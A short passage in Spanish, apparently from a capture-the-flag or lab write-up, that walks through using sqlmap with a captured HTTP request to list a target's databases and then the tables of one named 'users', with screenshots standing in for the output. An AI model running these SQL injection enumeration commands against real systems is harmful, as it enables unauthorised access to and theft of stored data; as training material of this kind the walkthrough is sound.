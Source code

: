 <p align="center">
    <img src="../img/Pasted_image_20250102204853.png" width="500">
</p>

Una vez teniendo la peticion, iniciaremos la herramienta de `sqlmap` de la siguiente forma.

```
sqlmap -r request.txt --dbs
```

<p align="center">
    <img src="../img/Pasted_image_20250102205126.png" width="500">
</p>


Por lo que vemos a funcionado y nos ha devuelto 2 bases de datos, la que nos interesa es la de `users`.
```
sqlmap -r request.txt -D users --tables
```

<p align="center">
    <img src="../img/Pasted_image_20250102205219.png" width="500">
</p>
